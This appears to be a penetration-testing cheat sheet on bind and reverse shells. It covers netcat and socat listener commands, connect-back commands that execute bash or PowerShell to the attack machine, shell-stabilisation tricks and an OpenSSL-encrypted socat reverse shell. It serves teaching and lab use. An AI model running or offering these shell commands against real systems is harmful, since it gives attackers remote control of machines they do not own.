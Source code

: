 # Bind and reverse shells

## Attack tree

```text
1 Reverse shell
    1.1 Start a listener on attack machine
    1.2 Start a reverse shell on target machine
2 Bind shell
    2.1 Start a listener on target machine
    2.2 Connect to listener on target from attack machine
```

## Examples

### Netcat shells

Starting a `netcat` listener on Linux for receiving from a reverse shell of the target:

    # nc -lvnp <port-number>

To obtain a bind shell on a target where there is already a listener waiting on a chosen port of the target:

    # nc <target-ip> <chosen-port>

Stabilise a `netcat` shell on Linux systems:

* Spawn a better featured bash shell
* Export to have access to term commands such as `clear`
* Background the shell with `Ctrl+Z`. Back in our own terminal, use `stty raw -echo; fg` to turn off terminal echo 
(which gives access to tab autocompletes, the arrow keys, and `Ctrl+C` to kill processes) and foreground the shell 
again. 

```text
adversary@kali:~# nc -lvnp <port-number>
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::<port-number>
Ncat: Listening on 0.0.0.0:<port-number>
Ncat: Connection from <target IP address>.
Ncat: Connection from <target IP address>:<target port-number>.
python -c 'import pty;pty.spawn("/bin/bash")'
shell@linux:~$ export TERM=xterm
shell@linux:~$ ^Z
[1]+ Stopped        nc -lvnp <port-number>
adversary@kali:~# stty raw -echo; fg
nc -lvnp <port-number>

shell@linux:~$ whoami
shell
```
If the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). 
To fix this, type `reset` and press enter.

For Windows shells, `rlwrap` can give access to history, tab autocompletion and the arrow keys immediately when 
receiving a shell, but some manual stabilisation must still be used to be able to use `Ctrl+C` inside the shell. 
`rlwrap` is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

Then use:

    adversary@kali:~# rlwrap nc -lvnp <port-number>

The third way to stabilise a shell is to use a netcat shell as a stepping stone into a more fully-featured `socat` 
shell. 

### Socat shells

#### Reverse

A basic reverse shell listener in `socat`:

    adversary@kali:~# socat TCP-L:<port-number> -

To connect back to the listener on a Linux target system:

    socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"

To connect back to the listener on a Windows target system:

    socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

#### Bind

Set up a listener on a Linux target:

    socat TCP-L:<PORT> EXEC:"bash -li"

Set up a listener on a Windows target:

    socat TCP-L:<PORT> EXEC:powershell.exe,pipes

The `pipes` argument interfaces between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target machine, connect to the waiting listener with:

    socat TCP:<TARGET-IP>:<TARGET-PORT> -

For a fully stable Linux tty reverse shell, use the `tty` technique.

### Socat encrypted shells

Setting up an OPENSSL-LISTENER using the `tty` technique and a PEM file called `encrypt.pem`:

```text
adversary@kali:~# openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
adversary@kali:~# cat shell.key shell.crt > encrypt.pem
adversary@kali:~# socat OPENSSL-LISTEN:<port-number>,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

Connecting back to this listener from the target machine:

```text
socat OPENSSL:<IP address attack machine>:<port-number>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

* `pty` allocates a pseudoterminal on the target -- part of the stabilisation process
* `stderr` makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
* `sigint` passes any `Ctrl+C` commands through into the sub-process, allowing for `kill` commands inside the shell
* `setsid` creates the process in a new session
* `sane` stabilises the terminal, attempting to "normalise" it.

## Notes

Shells are used for interfacing with a Command Line environment (CLI) like the common `bash` or `sh` programs in 
Linux, and the `cmd.exe` and `Powershell` on Windows. When targeting remote systems it is sometimes possible to force 
an application running on the server (such as a webserver, for example) to execute arbitrary code. When this happens, 
we want to use this initial access to obtain a shell running on the target.

* Reverse shells are when the target is forced to execute code that connects back to the attack computer. 
This requires setting up a listener which would be used to receive the connection on the attack machine. Reverse 
shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target.
* Bind shells are when the code executed on the target is used to start a listener attached to a shell directly on 
the target. This would then be open up a port to receive on that you can connect to, and obtain remote code execution. 
This has the advantage of not requiring any configuration on the attack network, but may be prevented by firewalls 
protecting the target.

## Tools

* [Netcat](https://www.kali.org/tools/netcat/)
* [Socat](https://www.kali.org/tools/socat/)
* [Socat binaries](https://github.com/3ndG4me/socat/releases)
* [Metasploit -- multi/handler](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/handler)

